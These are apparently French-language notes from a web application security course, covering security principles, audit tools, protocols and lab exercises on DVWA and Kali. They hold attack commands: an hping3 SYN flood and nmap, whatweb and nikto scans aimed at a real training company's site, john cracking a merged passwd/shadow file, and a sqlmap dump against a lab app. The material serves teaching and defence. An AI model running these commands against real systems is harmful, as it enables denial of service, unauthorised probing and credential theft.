

# Securité des Applications Web

## Arabe

* Haram: Mauvais
* Hallal: opposé de Haram, donc Bien 
* Khallas: Terminé
* Abadan: Jamais

## Importantes règles

* La faiblesse des uns fait la force des autres
* Connaître les attaques qui existent (type, outils et commandes qui permettent de les executer), permet de mieux se défendre
* La confiance, n'exclu pas la vérification; exemple une personne de ta famille te donne de l'argent, mais tu recompte à part :)
* Le niveau de sécurité élevé, implique une baisse des performances
* Le principe du "moindre privilège" chaque personne/composant doit avoir uniquement les privilèges nécessaires pour exercer son activité
* Raisonner avec un niveau d'abstraction élevé pour mieux décliner la sécurité au cas particuliers
* 780 milliards de mails enoyé par jour, 97% sont des spams, le phishing est le plus dangereux car il utilise la messagerie pour rediriger vers des sites malicieux
* La majorité des hackers ne connaissent pas grand chose à l'informatique, mais ils ont accès à des outils, et les utilisent comme des armes (il y a pleins de vidéos sur youtube), au final, l'impact est là.

### Astuces

Commande pour passer en clavier azerty français dans la session

> setxkbmap fr

ou bien modifier le fichier

>cat /etc/default/keyboard

```ini
XKBLAYOUT="fr"
```

## Cas de risques

* Sollicitations non sécurisées (armée utilisation de gmail)
* Contenu des informations critique (l'information n'est pas adaptée au destinataire)
* Faire des logs protégés pour détecter les attaques, éviter que les attaquants puissent les lires, modifier, supprimer
* Mixe entre manque de compléxité vs investiguation: un gamin qui 'hack' le compte d'Obama, car le mdp était le nom de son chien...

## HTTPS

"HTTPS over TLS" (version courante 1.3), pour chiffrer de bout en bout les données.  
Exemple: On ne sait pas si les données sont stokées en clair, et quelle machine sur le réseau peut lire. Les données chez l'hébergeurs ne sont pas à l'abris de subir une attaque de leur base de données (yahoo en 2010, 500M d'utilisateurs)

## ANSI

<https://www.cert.ssi.gouv.fr/>  
vols de cookies  
<https://www.cert.ssi.gouv.fr/cti/CERTFR-2022-CTI-005/>

## Netcraft

Site, non commercial, pour référencer les niveau de sécurité etc...


## Outils, astuces

### Distribution Linux

[Kali](https://www.kali.org/) : Distribution Linux qui contient une multitudes d'outils pour faire des tests de penetration afin de tester la sécurité de ses applications

### Antivirus

Vérifier par 3 antivirus minimum avant d'installer, sinon c'est ('harass' une faute professionnelle

[Virus Total](https://www.virustotal.com/gui/home/upload) Pour faire vérifier par plusieurs antivirus des fichiers xpi, exe, pdf, etc...  
Exemple pour récupérer le fichier de l'extension d'un browser (xpi ou autre)  

Manière simple: croiser les navigateur pour aller récupérer le fichier de l'extention au lieu de l'installer
Manière moins simple: aller en ftp, ou changer le type de fichier dans l'entête HTTP pour récupérer le fichier

### Verification Server

* [SSL Labs](https://www.ssllabs.com/ssltest/analyze.html) : Tester un site
* [Security Headers](https://securityheaders.com) : Audit des en-têtes

Exemple à tester avec www.ipc.com 

### Utilitaire protocoles

* [SCAPY](https://github.com/secdev/scapy) terminal python pour manipuler des protocoles facilement
* Chrome ou Firefox : http_header_live pour lire les échanges de requêtes  
exemple <http://www.google.fr> (on observe qu'il redirige sur https, qu'il propose du HTTP/2, ...)
* [Google Hacking Database](https://www.exploit-db.com/google-hacking-database) exemple intext: "index+of" film

## Protocoles

HTTP/3 & [QUIC](https://en.wikipedia.org/wiki/QUIC)  
Optimisation qui intègre TLS pour remplacer TCP : QUIC est utilisé par Zoom, Teams, ...

SFTP = FTP over SSH
FTPS = FTP over TLS

## Organisations, Groupes de Travail

[IEEE](https://www.ieee.org/): couche basses
* 802.1
* 802.2
* 802.3
* 802.11 : Wifi est une association pour faire de la promotion du 802.11

[IFIP](https://networking.ifip.org/)
* 6.5

[IETF](https://www.ietf.org/)
* WG

## Attaques

### Couches basses

#### TCP SYN Flooding

TCP complèxe et vulnérables à certaines attaques; TCP est géré par le noyau de l'OS  
[SYN flood](https://en.wikipedia.org/wiki/SYN_flood)  
Pour se défendre: Firewall, [SYN cookie](https://en.wikipedia.org/wiki/SYN_cookie)  
Intgré dans le noyau Linux, et activée par défaut,  
Sous windows, le fichier est à créer il n'existe pas par défaut.

```shell
cat /proc/sys/net/ipv4/tcp_syncookies  
1
```

exemple d'attaque sur le site d'orsys :)

>hping3 --flood --syn --rand-source -p 80 ww.orsys.fr

```shell
arp -a
? (192.168.3.15) at 00:0c:29:7e:0c:86 [ether] on eth0
? (192.168.3.101) at 00:0c:29:39:89:04 [ether] on eth0
? (192.168.3.11) at 00:19:99:f2:cf:e1 [ether] on eth0
? (192.168.3.7) at 00:19:99:f2:7c:e4 [ether] on eth0
? (192.168.3.20) at 00:0c:29:aa:c6:04 [ether] on eth0
? (192.168.3.3) at 00:19:99:f2:34:6c [ether] on eth0
? (192.168.3.100) at 00:19:99:f2:34:63 [ether] on eth0
? (192.168.3.150) at 00:0c:29:3d:b6:49 [ether] on eth0
? (192.168.3.14) at 00:19:99:f2:d0:30 [ether] on eth0
? (192.168.3.6) at 00:19:99:f2:34:9e [ether] on eth0
? (192.168.3.212) at 00:0c:29:00:96:62 [ether] on eth0
? (192.168.3.13) at 00:19:99:f2:d0:42 [ether] on eth0
? (192.168.3.254) at 00:00:cd:33:9d:af [ether] on eth0
? (192.168.3.5) at 00:19:99:f2:34:ba [ether] on eth0
? (192.168.3.60) at 00:0c:29:5c:10:0b [ether] on eth0
? (192.168.3.110) at 00:0c:29:2d:14:87 [ether] on eth0
? (192.168.3.4) at 00:19:99:f2:34:5c [ether] on eth0
? (192.168.3.105) at 00:0c:29:c8:76:ca [ether] on eth0
```

### Couches hautes

#### En-tête HTML

Modification du contenu de l'en-tête pour tromper le destinataire

##### User-Agent

Une de plus redoutable depuis ces 30 dernières années


##### Cookies

[Google Scholar](https://scholar.google.com/scholar?hl=fr&as_sdt=0%2C5&q=attacks+cookies&oq=) permet d'aller chercher des synthèses d'études, exemple : [Protecting cookies from Cross Site Script attacks using Dynamic Cookies Rewriting technique](https://ieeexplore.ieee.org/abstract/document/5745998)


## Travaux Pratique

commande pour créer une connexion TLS avec un serveur

```shell
OpenSSL> s_client -tls1_3 -host www.google.fr -port 443
CONNECTED(00000003)
depth=2 C = US, O = Google Trust Services LLC, CN = GTS Root R1
verify return:1
depth=1 C = US, O = Google Trust Services LLC, CN = GTS CA 1C3
verify return:1
depth=0 CN = *.google.fr
verify return:1
---
Certificate chain
 0 s:CN = *.google.fr
   i:C = US, O = Google Trust Services LLC, CN = GTS CA 1C3
 1 s:C = US, O = Google Trust Services LLC, CN = GTS CA 1C3
   i:C = US, O = Google Trust Services LLC, CN = GTS Root R1
 2 s:C = US, O = Google Trust Services LLC, CN = GTS Root R1
   i:C = BE, O = GlobalSign nv-sa, OU = Root CA, CN = GlobalSign Root CA
---
Server certificate
-----BEGIN CERTIFICATE-----
MIIEjDCCA3SgAwIBAgIQULgn7NhryQQKVodeAbtwaDANBgkqhkiG9w0BAQsFADBG
MQswCQYDVQQGEwJVUzEiMCAGA1UEChMZR29vZ2xlIFRydXN0IFNlcnZpY2VzIExM
QzETMBEGA1UEAxMKR1RTIENBIDFDMzAeFw0yMjA3MDQwODI3MTJaFw0yMjA5MjYw
ODI3MTFaMBYxFDASBgNVBAMMCyouZ29vZ2xlLmZyMFkwEwYHKoZIzj0CAQYIKoZI
zj0DAQcDQgAE2khUM/y7PmTqHCQhuvzjvnmAbRSSy+dV9ptKBAi/EgyijqHzV/Dd
VtwlxYw3pzCVXk/9nLd28CbQ5V38ZpJU06OCAm8wggJrMA4GA1UdDwEB/wQEAwIH
gDATBgNVHSUEDDAKBggrBgEFBQcDATAMBgNVHRMBAf8EAjAAMB0GA1UdDgQWBBRd
9DMS5Szj8Ll+hYCObTxQwbcV2zAfBgNVHSMEGDAWgBSKdH+vhc3ulc09nNDiRhTz
cTUdJzBqBggrBgEFBQcBAQReMFwwJwYIKwYBBQUHMAGGG2h0dHA6Ly9vY3NwLnBr
aS5nb29nL2d0czFjMzAxBggrBgEFBQcwAoYlaHR0cDovL3BraS5nb29nL3JlcG8v
Y2VydHMvZ3RzMWMzLmRlcjAhBgNVHREEGjAYggsqLmdvb2dsZS5mcoIJZ29vZ2xl
LmZyMCEGA1UdIAQaMBgwCAYGZ4EMAQIBMAwGCisGAQQB1nkCBQMwPAYDVR0fBDUw
MzAxoC+gLYYraHR0cDovL2NybHMucGtpLmdvb2cvZ3RzMWMzL3pkQVR0MEV4X0Zr
LmNybDCCAQQGCisGAQQB1nkCBAIEgfUEgfIA8AB2ACl5vvCeOTkh8FZzn2Old+W+
V32cYAr4+U1dJlwlXceEAAABgciJCmQAAAQDAEcwRQIgdcqj/oqMzm73q31+mnBk
eLe8TvXoKSuy2L7x2B1E+C4CIQCVrp3e1O5VufU17T1NHm5PxaSFrJk2dhvdb3Yt
Z3B3lgB2AAWcAdMg4AeEE5WASY0RfJAyZq+vclC1rztGpD4RhA1KAAABgciJCpUA
AAQDAEcwRQIgFRrr6Olvp6ssCn9sA5qfMxBc94vMVCh0Q3PujRGDMgICIQDfYv9a
LMIP0dVhX0e7GWY7RhEWry7Q+SJ9VQISvqJ8eTANBgkqhkiG9w0BAQsFAAOCAQEA
s0PcspV4bjBffYbBJx4Ca9BX7fUg/VEW7fzB6IYXqobl8adzfuwHSC1g9IyeFX5c
XfFAn9yMlIVwvnz+u+2xSsMTSAFzMtgkk80iNKdndb+y6TVoYAJ8XTRLPYa6mT/u
RUzl466YtVzwbBbj/UUjo18PuKDTIa2PHNZuuGkDWREwnIihZNt3UhGTOAg2jHY+
/3Ik2q6HxgRklVt1iye88anT50VNfaCuvGXjmLWaw/cTtIMdKRSA/CQ5iASnRxFo
De15fQh8OihEyRxB/TOEAfUfDEk7Q7ohqnPwJGKRfb5Ynm1Pix8WP4X51hQdmBzB
U9zD7+cmwPgTHbVlNkF+Ww==
-----END CERTIFICATE-----
subject=CN = *.google.fr

issuer=C = US, O = Google Trust Services LLC, CN = GTS CA 1C3

---
No client certificate CA names sent
Peer signing digest: SHA256
Peer signature type: ECDSA
Server Temp Key: X25519, 253 bits
---
SSL handshake has read 4299 bytes and written 317 bytes
Verification: OK
---
New, TLSv1.3, Cipher is TLS_AES_256_GCM_SHA384
Server public key is 256 bit
Secure Renegotiation IS NOT supported
Compression: NONE
Expansion: NONE
No ALPN negotiated
Early data was not sent
Verify return code: 0 (ok)
---
read:errno=0    <<<<<< après un timeout la session est coupée
```

```
map -sS -sV -v -p 80,443 www.orsys.fr
whatweb -v https://www.orsys.fr
nikto -h https://www.orsys.fr

```


### Exercice 2 : attaques sur la logique applicative

préparation
* installer et lancer xampp sous windows avec apache utilisant les ports 8080 et 8443 dans les fichiers de configuration httpd.conf, httpd-ssl.conf et lancer aussi mysql
* télécharger https://github.com/digininja/DVWA déziper et installer dans le dossier `C:\xampp\htdocs` et se connecter à l'url `http://localhost:8080/DVWA`

l'application DVWA propose des exemples de formulaires web avec différent niveau de faille, ci-dessous une attaque XSS qui affichera le cookie en le passant dans le champ 'Name'  
Utiliser le bouton 'View Source' pour observer le code de la page et 'Compare' pour voir les version différentes Low, Medium et High.




Exemple de l'utilisation de l'utilitaire john pour casser les mots de passes linux 
```
┌──(root㉿kali)-[/etc]
└─# unshadow passwd shadow > resultats
Created directory: /root/.john  
                                                                               
┌──(root㉿kali)-[/etc]
└─# john --format=crypt resultats 
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
kali             (kali)     
1g 0:00:00:00 DONE 1/3 (2022-07-27 05:04) 1.041g/s 100.0p/s 100.0c/s 100.0C/s kali..kkali1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Autre exemple de test par injection SQL, au préalable lancer le xampp server avec l'app WebGoat

```
──(root㉿kali)-[/etc]
└─# sqlmap -u "http://192.168.3.7:8080/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="le cookie 
d’authentification" --current-user --current-db --dump

        ___
       __H__                                                                                                                                                                               
 ___ ___[']_____ ___ ___  {1.6#stable}                                                                                                                                                     
|_ -| . [.]     | .'| . |                                                                                                                                                                  
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:23:17 /2022-07-27/

[05:23:17] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.3.7:8080/DVWA/login.php'. Do you want to follow? [Y/n] y
[05:23:32] [INFO] checking if the target is protected by some kind of WAF/IPS
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
[05:23:49] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] y
[05:23:58] [WARNING] please consider usage of tamper scripts (option '--tamper')
[05:23:58] [INFO] testing if the target URL content is stable
[05:24:00] [WARNING] GET parameter 'id' does not appear to be dynamic
[05:24:02] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[05:24:05] [INFO] testing for SQL injection on GET parameter 'id'
[05:24:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[05:24:15] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[05:24:22] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[05:24:33] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[05:24:43] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[05:24:54] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[05:25:05] [INFO] testing 'Generic inline queries'
[05:25:07] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[05:25:16] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[05:25:24] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[05:25:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[05:25:44] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[05:25:54] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[05:26:05] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests?
```

---

### Qestion

* Comment tester une configuration par défaut d'une application téléchargée, méthodes ou outils ?
